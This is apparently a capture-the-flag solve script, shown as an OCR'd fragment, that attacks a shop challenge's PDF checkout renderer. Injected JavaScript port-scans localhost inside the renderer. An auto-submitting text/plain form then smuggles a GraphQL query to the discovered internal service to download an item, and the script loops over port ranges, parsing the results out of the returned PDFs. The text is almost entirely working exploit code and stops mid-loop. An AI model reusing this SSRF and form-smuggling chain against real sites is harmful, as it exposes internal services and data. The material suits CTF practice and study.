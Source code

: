 ```python  

document.body.innerHTML = "Starting Port Scan...";  
async function test() {  
   // how to use  
   for (var i = {{portstart}}; i < {{portend}}; i++) {  
	let [isOpen, m, sumOpen, sumClosed] = await portIsOpen('localhost', i, 10);  
	if (isOpen) {  
	    document.body.innerHTML += `

Port ${i} open

`;  
	}  
   }  
}

test();

</script>  
"""

exploit = """  
<form name="myForm" id="myForm" action="http://127.0.0.1:{{port}}/"
method="POST" enctype="text/plain">  
     <input name='{"variables":{},"' value='":{},"query":"query{findFirstItemOrThrow(where:{id:2}){download}}"}' />  
</form>

<script>  
   window.onload = function(){  
     document.forms['myForm'].submit();  
   }  
</script>  
"""

domain = "https://" + "25fcb16f03784ff73996658e7bb1655a-trusted-
shop-4.chals.kitctf.de"  
# domain = "http://localhost:8000"

for port in range(30000, 40000, 500):  
   r = requests.post(f"{domain}/checkout/1", data={"email":
template.replace("{{portstart}}", str(port)).replace("{{portend}}", str(port +
500))})  
   with open("/tmp/foo.pdf", "wb") as f:  
       f.write(r.content)  
   reader = PdfReader('/tmp/foo.pdf')

   # getting a specific page from the pdf file  
   page = reader.pages[0]

   # extracting text from page  
   text = page.extract_text()  
   ports = re.findall('Port (\\d+) open', text)  
   for port in ports:  
       r = requests.post(f"{domain}/checkout/1", data={"email": exploit.replace("{{port}}", str(port))})  
       with open("/tmp/foo.pdf", "wb") as f:  
           f.write(r.content)  
       reader = PdfReader('/tmp/foo.pdf')

       # getting a specific page from the pdf file  
       page = reader.pages[0]

```
